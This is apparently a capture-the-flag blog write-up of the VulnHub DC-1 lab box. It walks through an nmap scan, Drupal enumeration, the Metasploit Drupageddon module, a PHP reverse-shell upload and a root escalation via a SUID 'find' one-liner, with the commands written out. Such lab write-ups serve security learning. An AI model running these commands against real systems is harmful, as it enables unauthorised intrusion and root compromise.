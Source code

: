 ```yaml
---
layout: "post"
title: "DC 1 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-1, easy, Drupal, suid]
---
```

DC-1 was a simple and straightforward `CVE` based box. We find the server is hosting `Drupal CMS`. I saw that Drupal version had a CVE which allowed me drop a `webshell` in webserver. Priv sec to root by exploiting `find SUID binary`. 

# Summary
- Portscan
- Drupal Enumeration
- Exploting drupal to get shell
- Privilege Escalation by exploting SUID binary
- Getting Root
- Final Flag

# Portscan

```
Nmap scan report for 192.168.1.12
Host is up (0.00022s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
```
# Drupal
I visit the website. I find that server is running Drupal CMS. I don't have any idea about drupal so I search online and findout `droopescan` tool. I installed it and run it.

For installation:
```bash
pip install droopescan
```

After installation I run `droopescan`.

![droopescan](/assets/img/dc-1/droopescan.png)

# Initial Shell
From scan I find out some useful stuff but drupal version grab my attention.Then I findout exploits on `searchsploit`.
```bash
searchsploit drupal 7
``` 
![searchsploit](/assets/img/dc-1/searchsploit.png)

I start metasploit and used the exploit.

```
use exploit/multi/http/drupal_drupageddon
set rhosts 192.168.1.12
run
```

![meterpreter_shell](/assets/img/dc-1/meterpreter_shell.png)
In this way I have meterpreter session
## Flag 1 
After getting shell I found ```flag1.txt``` 
![flag1](/assets/img/dc-1/flag1.png)

## Netcat Shell
Now I have meterpreter so tried to launch shell and run the commands but due to some reasons I am not able to run commands.
![not working shell](/assets/img/dc-1/not_working_shell.png)
 The metasploit shell is not working so that I shift to netcat shell by uploading ```php-reverse-shell```.

![upload_shell](/assets/img/dc-1/upload_shell.png)

![nc_shell](/assets/img/dc-1/nc-shell.png)

# Privsec to Root

After some enumeration I noticed that ```find``` has SUID bit set, we can run the commands as root.
With one simple command we get root.

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```
![root](/assets/img/dc-1/root.png)
## Final Flag
![finalflag](/assets/img/dc-1/finalflag.png)

